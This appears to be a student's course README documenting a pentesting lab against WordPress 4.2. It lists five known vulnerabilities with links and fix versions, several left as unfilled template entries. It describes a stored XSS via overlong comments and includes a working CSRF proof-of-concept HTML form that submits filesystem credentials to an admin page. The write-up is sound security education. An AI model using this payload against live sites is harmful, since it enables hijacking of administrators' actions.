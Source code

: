 # Project 7 - WordPress Pentesting

Time spent: **X** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Lab Section

* Recreating the XSS exploit:

    <img src='https://i.imgur.com/r6t8YYw.png' />

## Pentesting Report

1. (Required) Unauthenticated Stored Cross-Site Scripting (XSS)
  - [x] Summary: https://wpvulndb.com/vulnerabilities/7945.
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [x] GIF Walkthrough: <img src='xss.gif' />
  - [x] Steps to recreate: The vulnerability takes place
        when a user posts a comment that is extraordinarily long to bypass the MySQL limit
        of 64 kilobytes. When this happens, it executes code within HTML attributes supplied
        in the comment. When any user loads the page with the comment, the XSS executes.
  - [x] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/4.2/src/wp-comments-post.php)
1. (Required) wp_untrash_post_comments SQL Injection
  - [x] Summary: https://wpvulndb.com/vulnerabilities/8126.
    - Vulnerability types: SQL Injection
    - Tested in version: 4.2
    - Fixed in version: 4.2.4
  - [ ] GIF Walkthrough:
  - [ ] Steps to recreate:
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Required) Filesystem Credentials Dialog CSRF
  - [x] Summary: https://wpvulndb.com/vulnerabilities/8818
    - Vulnerability types: CSRF
    - Tested in version: 4.2
    - Fixed in version: 4.2.15
  - [x] GIF Walkthrough:
  - [x] Steps to recreate: Create an HTML file with a hidden submission form
        ```html
        <html>
   <body>
      <form action="http://wpdistillery.dev/wp-admin/plugins.php" method="POST">
         <input type="hidden" name="hostname" value="sumofpwn.nl" />
         <input type="hidden" name="connection_type" value="ftp" />
         <input type="hidden" name="password" value="password" />
         <input type="submit" value="Submit request" />
      </form>
   </body>
</html>
        ```
  - [x] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/4.2/src/wp-admin/includes/file.php)
1. (Optional) Pupload Same Origin Method Execution (SOME)
  - [ ] Summary: https://wpvulndb.com/vulnerabilities/8489
    - Vulnerability types: Same Origin Method Execution (SOME)
    - Tested in version: 4.2
    - Fixed in version: 4.2.8
  - [ ] GIF Walkthrough:
  - [ ] Steps to recreate:
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Optional) 2.3-4.7.5 - Large File Upload Error XSS
  - [x] Summary: https://wpvulndb.com/vulnerabilities/8819
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.15
  - [ ] GIF Walkthrough:
  - [ ] Steps to recreate:
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright 2017 Alexander Matson

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
